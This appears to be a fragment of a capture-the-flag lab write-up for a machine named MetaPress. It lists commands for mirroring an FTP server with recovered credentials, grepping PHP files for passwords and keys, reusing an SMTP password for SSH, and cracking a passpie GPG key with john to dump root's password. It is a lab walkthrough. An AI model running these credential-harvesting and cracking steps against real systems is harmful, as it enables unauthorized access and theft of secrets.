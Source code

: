 ```
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```


## Dump FPT

`wget -m --user=metapress.htb --password=9NYS_ii@FyL_p5M2NvJ ftp://metapress.htb`

## Grep for stuff in php files:

`grep -Ri 'password\|db_password\|auth_key\|secure_auth_key\|logged_in_key\|nonce_key\|auth_salt\|secure_auth_salt\|logged_in_salt\|nonce_salt' *.php`

`mailer/send_email.php:22:$mail->Password = "Cb4_JmWM8zUZWMu@Ys";`

```
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587; 
```

user jnelson and password used to ssh into box for user flag

## Linux Enum

```
$ uname -a
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

found passpie in linpeas

## passpie

file in `~/.passpie/.keys`

contained gpg private key

copied that to file

https://ed4m4s.blog/password-attacks/john-the-ripper

```
gpg2john file-name > hash
john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash
```

then 

`passpie export ~/pass` to plaintext

root pass gained and flag found
